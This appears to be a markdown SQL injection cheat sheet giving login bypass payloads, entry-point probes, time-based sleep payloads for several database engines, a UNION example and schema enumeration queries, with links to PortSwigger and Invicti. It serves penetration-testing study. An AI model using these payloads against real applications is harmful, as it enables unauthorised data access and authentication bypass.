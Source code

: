 # SQL Injection

>An SQL injection is a security flaw that allows attackers to interfere with database queries of an application. This vulnerability can enable attackers to view, modify, or delete data they shouldn't access, including information of other users or any data the application can access. Such actions may result in permanent changes to the application's functionality or content or even compromision of the server or denial of service.

### MYSQL Conditional Statement
```sql
IF(condition,true-part,false-part) (M) 
SELECT IF(1=1,'true','false')
```

### Login Bypass payloads

This is SQL injection 101—here are some typical login tricks that you can use with form fields and parameters:

```sql
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
```
### Entry point detection
```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```
### Confirming with timing
```sql
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```


## Union Based Attacks
 When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

 ```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

## Finding Database structure in mysql

### Finding table name
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'
```
### Finding column name
```sql
SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'
```


# References
- [Port Swigger Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [Invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#LineCommentAttacks)
- 
